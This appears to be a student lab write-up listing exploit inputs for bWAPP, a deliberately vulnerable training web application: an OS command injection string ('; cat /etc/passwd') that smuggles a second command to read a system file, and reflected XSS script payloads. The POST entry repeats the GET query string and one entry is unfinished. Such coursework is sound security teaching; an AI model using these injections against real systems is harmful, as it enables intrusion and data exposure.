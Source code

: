 # bWAPP - Exploits
<a href="https://github.com/NicolaiKuertoes/swa-writeups/tree/master/swa_prakt6#swa---praktikum-6">&larr; zurück</a>
### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
not yet implemented
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

### (4) Cross-Site Scripting - Reflected (POST) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```
